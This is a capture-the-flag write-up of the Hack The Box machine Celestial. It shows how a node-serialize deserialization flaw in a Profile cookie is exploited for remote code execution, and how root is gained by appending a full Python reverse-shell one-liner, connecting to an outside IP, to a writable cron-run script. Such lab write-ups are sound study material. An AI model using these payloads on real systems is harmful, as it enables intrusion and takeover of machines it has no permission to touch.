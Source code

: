 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Celestial"
tags: ['linux','medium','node','serialize','cron']
layout: PostSimple
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/1.png)

We are going to pwn Celestial by 3ndG4me from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/130>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only One port Available and it is a Node.js Express framework so let's check the webpage of it.

## HTTP:

It displayes a message and nothing else.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/2.png)

Since it is ``Node.js`` framework, Capture the webpage request in burp and check for interesting things.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/3.png)
There is  ``Profile`` cookie in request header and its seems like Base64 encoded, and the Cookie start with ``eyJ`` it is JSON Web Token. 

It is Base64 encoded cookie this information is displayed in response header.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/4.png)

Since it is Base64 encoded cookie, why dont we change it and encode it with base64 and pass it as cookie.<br/>

I changed the ``"num":"2"`` to ``"num":"3"`` and encoded it with base64.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.png)
Now I copied that base64 encoded cookie and pass it to the Request Header Cookie.<br/>

The Output Now changes to ``Hey Dummy 3 + 3 is 33`` so If we change the ``num`` in the cookie, it changes in the response. This is because of a module called [node-serialize](https://www.npmjs.com/package/node-serialize)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.1.png)

I searched for NodeJs Serialize exploits and found this link.
><https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>

According to the article, the data we send as a cookie value was passed into the ``unserialize()`` function which unserialize the serialized format code and execute it accordingly. Since Node.js and plenty of other languages rely on the serializtion of the objects, the main issue lies in the parsing of this data whether they contain any malicious code or not. Taking advantage of this, we can generate a payload and due to which try to execute something that can help us in futher exploitation. Once payload created, we can pass it as a cookie value, which then passed into `unserialize`, hence deserialization of the our payload will execute the code.

## Payload Generation:

I started with [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create our reverse shell with Our machine IP.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/6.png)

We need to generate the serialize payload by using ``log.js``<br/>

``log.js``
```
var y = {
 rce : function(){}
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Before doing this make you sure you need to do this.
```
apt install nodejs
apt install npm
npm install node-serialize
```

Copy the payload we got from the python script and paste that in ``function(){PAYLOAD}`` and execute it.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/7.png)

Now we got Serialized payload, Copy the payload and encode as Base64, don't forgot to add brackets ``()`` after the function body.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/8.png)

## Gaining Shell:

Paste the encoded Base64 in ``Cookie : Profile=``, send the request and start the listener.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/9.png)
Got the shell as user ``sun``. You can get the user Flag in ``/Documents``.


## Privilege Escalation:

Uploaded ``pspy`` to the box to check any process running in the background.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/10.png)
There is a python script in ``/Document/script.py`` which is running as root. We have write permission on the file too. So I upload python reverese shell.

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
```
Started my listener and I got Root!!<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/11.png)

